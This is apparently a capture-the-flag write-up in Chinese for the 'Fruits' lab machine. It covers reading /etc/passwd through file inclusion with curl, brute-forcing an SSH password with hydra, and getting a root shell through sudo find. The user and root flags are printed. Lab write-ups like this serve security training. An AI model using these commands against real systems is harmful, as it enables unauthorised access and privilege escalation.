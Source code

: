 # Fruits

2025.03.07 https://thehackerslabs.com/fruits/

[video](https://www.bilibili.com/video/BV1fp91YAEAS/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

首页上的提交显示 404，扫描出新的 url http://192.168.5.39/fruits.php 空白页面，进行参数 FUZZ，找到参数 file ，存在文件包含可以读取到 passwd : curl -s http://192.168.5.39/fruits.php?file=/etc/passwd , 发现一个普通用户 bananaman 。

在尝试 FUZZ 读取其他文件，都读不到，只好 hydra 爆一下这个用户 bananaman 的登陆密码，发现密码: celtic , ssh 进行登陆。

先拿到了 user flag：

```
bananaman@Fruits:~$ cat user.txt
482c811da5d5b4bc6d497ffa98491e38
```

sudo 显示 (ALL) NOPASSWD: /usr/bin/find 直接提权到 root：

```
sudo find . -exec /bin/sh \; -quit
```

拿到 root flag:

```
# cat root.txt
21232f297a57a5a743894a0e4a801fc3
```
